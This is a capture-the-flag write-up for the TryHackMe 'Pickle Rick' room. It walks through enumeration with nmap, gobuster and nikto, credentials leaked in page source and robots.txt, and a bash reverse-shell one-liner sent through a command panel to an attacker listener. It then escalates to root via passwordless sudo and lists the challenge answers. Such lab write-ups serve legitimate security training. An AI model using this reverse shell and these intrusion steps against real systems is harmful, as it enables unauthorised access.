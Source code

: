 ## Pickle Rick - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/picklerick)

<i>This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP</i>

**IP: 10.10.236.115**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Web <br>

**Tools Used**: Nmap, Gobuster, Nikto<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Let's start with Nmap, Gobuster and Nikto.

  ```
  nmap -sC -sV -T5 -p- 10.10.236.115

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 ab:3e:21:3f:47:cf:4a:e5:b8:c1:6a:37:b3:96:4a:29 (RSA)
  |   256 67:53:84:0b:75:97:8c:78:82:75:1a:ac:93:67:2d:fd (ECDSA)
  |_  256 14:0d:74:ad:9e:75:00:44:88:6d:26:8b:a2:b9:db:01 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: Rick is sup4r cool
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u http://10.10.236.115/ -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.htaccess            (Status: 403) [Size: 278]
  /.hta                 (Status: 403) [Size: 278]
  /.htpasswd            (Status: 403) [Size: 278]
  /assets               (Status: 301) [Size: 315] [--> http://10.10.236.115/assets/]
  /index.html           (Status: 200) [Size: 1062]
  /robots.txt           (Status: 200) [Size: 17]
  /server-status        (Status: 403) [Size: 278]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```

  ```
  nikto -url http://10.10.236.115/

  - Nikto v2.5.0
  ---------------------------------------------------------------------------
  + Target IP:          10.10.236.115
  + Target Hostname:    10.10.236.115
  + Target Port:        80
  + Start Time:         2025-05-09 20:02:25 (GMT1)
  ---------------------------------------------------------------------------
  + Server: Apache/2.4.41 (Ubuntu)
  + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
  + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
  + No CGI Directories found (use '-C all' to force check all possible dirs)
  + Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
  + /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
  + /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
  + OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
  + /login.php: Admin login page/section found.
  + 8074 requests: 0 error(s) and 7 item(s) reported on remote host
  + End Time:           2025-05-09 20:09:51 (GMT1) (446 seconds)
  ---------------------------------------------------------------------------
  + 1 host(s) tested
  ```
  
- Honestly this is the first time that `nikto` was actually usefull lol, it found login page. Beside that, in source code of main page you can find username.

  ```
    <!--

    Note to self, remember username!

    Username: R1ckRul3s

    -->
  ```
  
- In `robots.txt` I found `Wubbalubbadubdub` so I tried using that as SSH password but it didn't work. Since nikto actually did it's job for once I tried same credentials on admin login page. It worked!

---

## ⚙️ Shell Access

- Now, here comes my favourite part, REVERSE SHELLS! OK, so in admin page you have option to run commands. Unfortunately, when you use `cat` it won't work, that's a sign to upload reverse shell.

  ```
  ls 

  Sup3rS3cretPickl3Ingred.txt
  assets
  clue.txt
  denied.php
  index.html
  login.php
  portal.php
  robots.txt
  
  cat Sup3rS3cretPickl3Ingred.txt
  Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
  ```
  
- I tried php reverse shell first and it didn't work, but bash shell did. Start a listener and upload this one liner in admin panel.

  ```
  bash -c 'bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1' 

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.236.115] 50424
  bash: cannot set terminal process group (1033): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@ip-10-10-236-115:/var/www/html$ whoami
  whoami
  www-data
  ```
  
- Of course that I have to switch to my beloved putty shell, that's not even a question, let's go find those ingredients!

  ```
  python3 -c 'import pty,os,sys; pty.spawn("/bin/bash")'
  CTRL-Z
  stty raw -echo; fg
  export TERM=xterm
  ```

---

## 🧍 User Privilege Escalation

- Wellp, at first I started enumerating the machine with `find` and `grep` in order to get those files but that took soooooo long that I didn't even let it finish, so I started looking for them manually.
  
- First one is already there, just read it and second one is in `/home/rick`.

  ```
  www-data@ip-10-10-236-115:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt 
  mr. meeseek hair 
  
  www-data@ip-10-10-236-115:/var/www/html$ cat clue.txt 
  Look around the file system for the other ingredient.

  www-data@ip-10-10-236-115:/home/rick$ cat 'second ingredients' 
  1 jerry tear
  ```

---

## 👑 Root Privilege Escalation

- After finding first two ingredients I had a feeling that third one is in root directory, so I ran `sudo -l` as always and guess what I found?

  ```
  www-data@ip-10-10-236-115:/home/ubuntu$ sudo -l
  Matching Defaults entries for www-data on ip-10-10-236-115:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on ip-10-10-236-115:
      (ALL) NOPASSWD: ALL
  ```
  
- YEP! We can use any sudo command without password. Just switch to root and read the last ingredient.

  ```
  www-data@ip-10-10-236-115:/$ sudo su
  root@ip-10-10-236-115:/# cd /root
  root@ip-10-10-236-115:~# ls -al
  total 36
  drwx------  4 root root 4096 Jul 11  2024 .
  drwxr-xr-x 23 root root 4096 May  9 18:46 ..
  -rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
  -rw-------  1 root root  168 Jul 11  2024 .bash_history
  -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
  -rw-r--r--  1 root root  161 Jan  2  2024 .profile
  drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
  drwx------  2 root root 4096 Feb 10  2019 .ssh
  -rw-------  1 root root  702 Jul 11  2024 .viminfo
  root@ip-10-10-236-115:~# cat 3rd.txt 
  3rd ingredients: fleeb juice
  ```
  
- See ya in the next one, Wubbalubbadubdub! 🥒

---

## 🏁 Flags

- **What is the first ingredient that Rick needs?**: `mr. meeseek hair`
- **What is the second ingredient in Rick’s potion?**: `1 jerry tear`
- **What is the last and final ingredient?**: `fleeb juice`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing really, I'm literally proud of nikto for doing it's job lol.`

- What did I learn?
  `To always try different things`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
